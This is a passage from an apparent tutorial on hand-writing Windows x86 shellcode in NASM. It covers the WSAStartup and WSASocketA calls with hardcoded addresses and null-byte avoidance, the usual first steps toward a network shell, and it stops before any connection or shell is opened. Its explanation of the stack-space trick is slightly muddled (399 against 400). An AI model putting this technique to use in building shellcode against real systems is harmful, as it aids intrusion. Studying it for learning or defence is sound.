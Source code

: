 Documentation: <a href="https://docs.microsoft.com/en-us/windows/win32/api/winsock/nf-winsock-wsastartup">https://docs.microsoft.com/en-us/windows/win32/api/winsock/nf-winsock-wsastartup</a>  
Documentation: <a href="https://docs.microsoft.com/en-us/windows/win32/api/winsock/ns-winsock-wsadata">https://docs.microsoft.com/en-us/windows/win32/api/winsock/ns-winsock-wsadata</a>

Syntax:
```nasm
WSAStartup(WORD wVersionRequired, LPWSADATA lpWSAData)
```

The next system call we need to run is WSAStartup() to initialize the use of sockets. It takes two arguments, where the first is the version we are going to use and the second is a pointer to a place to store socket data.

```nasm
add esp, 0xFFFFFE70 ; Creating space for WSAData (400 bytes)
push esp            ; Arg2 (lpWSAData) = pointer to WSAData space
push 0x101          ; Arg1 (wVersionRequired) = 1.1
mov eax, 0x71ab6a55 ; Address to WSAStartup()
call eax
```

The first instruction is `add esp, 0xFFFFFE70`, which is a way of creating space (400 bytes) on the stack without generating null bytes. The normal way of achieving this would be to subtract a value from ESP (remember the stack grows downwards). However, this results in null bytes:
```text
nasm > sub esp, 0x190
00000000  81EC90010000      sub esp,0x190
```

I'm not sure why this trick works, but by inverting the logic it solves our problem:
`0xFFFFFFFF - 0xFFFFFE70 = 0x18F = 399`

## System call: WSASocketA

Documnetation: <a href="https://docs.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-wsasocketa">https://docs.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-wsasocketa</a>

Syntax:
```nasm
WSASocketA(int af, int type, int protocol, LPWSAPROTOCOL_INFOA lpProtocolInfo, GROUP g, DWORD dwFlags)
```

Now we need to create a socket. This function takes a few parameters, like information about the socket type. 

```nasm
xor eax, eax         ; Clear eax
push eax             ; Arg6 (dwFlags) = 0
push eax             ; Arg5 (g) = 0
push eax             ; Arg4 (lpProtocolInfo) = 0
push eax             ; Arg3 (protocol) = 0 = IPPROTO_TCP
push 0x1             ; Arg2 (type) = 1 = SOCK_STREAM
push 0x2             ; Arg1 (af) = 2 = AF_INET
mov eax, 0x71AB8B6A  ; Address to WSASocketA()
call eax
mov ebx, eax 
```
